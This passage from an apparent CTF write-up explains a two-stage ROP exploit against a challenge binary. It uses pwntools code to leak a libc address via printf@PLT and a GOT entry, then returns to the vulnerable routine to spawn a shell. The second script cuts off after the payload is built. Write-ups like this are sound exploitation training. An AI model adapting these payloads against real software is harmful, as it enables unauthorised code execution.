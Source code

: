 The **limitation** here is that we must take into account that `0xc0` bytes from the input will be copied onto the **top of the previous** `rsp`.

![Untitled](/CTF/interruptlabsctf-12.png)

My plan is to craft a **ROP chain** that calls `printf` from the **PLT**, passing a populated **GOT** entry as the first argument to leak a **libc address**.

To overcome the limitation mentioned earlier, we should put everything which is placed at the top of previous `rsp` at the start of the payload.

```python
io = start()

io.sendline("1")

rop = ROP(exe)
pop_rdi_ret = rop.find_gadget(["pop rdi" , "ret"]).address
ret = rop.find_gadget(["ret"]).address

payload = p64(exe.got.printf) + p64(ret) + p64(exe.sym.printf) + p64(ret) + p64(0x401196)

payload = payload + b"A"* (0xd8 - len(payload)) + p64(pop_rdi_ret)
io.sendlineafter(b"Enter Note Below", payload)

io.recvline()
leak = u64(io.recvline().strip().ljust(8,b"\x00"))
log.info("Leak: " + hex(leak))
```

Also worth to mention that in order to spawn a shell at the end of the **ROP chain** we are returning to **the vulnerable subroutine.**

In the second stage, as the **stack has been manipulated**, we do not have to pay attention to the above **limitation**.

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './challenge_1')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ["tmux", "splitw", "-h"]

context.log_level = 'debug'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
start
'''.format(**locals())

io = start()

io.sendline("1")

rop = ROP(exe)
pop_rdi_ret = rop.find_gadget(["pop rdi" , "ret"]).address
ret = rop.find_gadget(["ret"]).address

payload = p64(exe.got.printf) + p64(ret) + p64(exe.sym.printf) + p64(ret) + p64(0x401196)
```